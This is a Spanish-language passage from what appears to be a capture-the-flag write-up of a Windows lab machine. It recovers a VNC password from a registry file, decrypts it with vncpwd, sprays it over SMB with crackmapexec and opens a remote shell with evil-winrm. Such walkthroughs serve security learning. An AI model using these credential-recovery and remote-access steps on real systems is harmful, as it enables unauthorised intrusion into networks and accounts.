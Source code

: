 ```null
cd ./IT/Temp/s.smith
ls
VNC Install.reg
file VNC\ Install.reg
VNC Install.reg: Windows Registry little-endian text (Win2K or above)
```

Tiene un campo con una contraseña en hexadecimal

```null
"Password"=hex:6b,cf,2a,4b,6e,5a,ca,0f
```

Pero al hacerle el proceso inverso no se ve en texto claro

```null
echo '6b,cf,2a,4b,6e,5a,ca,0f' | tr -d ',' | xxd -ps -r; echo
k*KnZ
```

En Github hay una herramienta para descifrar la clave

```null
git clone https://github.com/jeroennijhof/vncpwd
cd vncpwd
make

echo '6b,cf,2a,4b,6e,5a,ca,0f' | tr -d ',' | xxd -ps -r > password
./vncpwd password
Password: sT333ve2
```

Esa contraseña se reutiliza para un usuario

```null
crackmapexec smb 10.10.10.182 -u valid_users -p 'sT333ve2' | grep "+"
SMB         10.10.10.182    445    CASC-DC1         [+] cascade.local\s.smith:sT333ve2 
```

Había visto que pertenece al grupo Remote Management Users, así que me puedo conectar por winrm

Y gano acceso al sistema

```null
evil-winrm -i 10.10.10.182 -u 's.smith' -p 'sT333ve2'

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\s.smith\Documents>
```
